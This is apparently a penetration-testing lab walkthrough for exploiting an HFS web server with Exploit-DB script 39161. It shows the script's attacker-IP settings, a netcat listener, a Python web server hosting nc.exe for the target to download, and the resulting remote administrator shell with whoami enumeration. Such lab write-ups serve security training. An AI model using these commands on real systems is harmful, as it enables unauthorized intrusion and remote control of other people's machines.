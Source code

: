 ```python
#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!

	ip_addr = "10.10.5.2" #local IP address
	local_port = "1234" # Local Port number
```

Tab1 : We're going to be running the Python exploit.

Tab2 : We're going to set up our Netcat listener.

```
nc -nvlp 1234
```

Tab3 : We need to host the Netcat executable.

```
cd /usr/share/windows-binaries
ls
python3 -m http.server 80
```

Tab1 : This exploit doesn't work on its first try.

```
python 39161.py 10.2.30.185 80
```

Tab3 : A GET request is made, which means that netcat.exe was downloaded.

Tab2 : our Netcat listener, we didn't receive a command shell session.

Tab1 : We need to run the exploit again.

```
python3 39161.py 10.2.30.185 80
```

Tab2 : our Netcat listener, we have exploited the target system. And we are provided with a simple command shell session on the target system.

We can perform some local enumeration to identify who we are exactly.

```
C:\hfs>whoami
```

We are currently the administrator user. In this case, we do not need to elevate our privileges.

```
C:\hfs>whoami /priv
```

To display the list of privileges associated with this account.

This is where the whole file transfer process comes into play.

Remember, we don't have a meterpreter session. This is a simple command shell session.
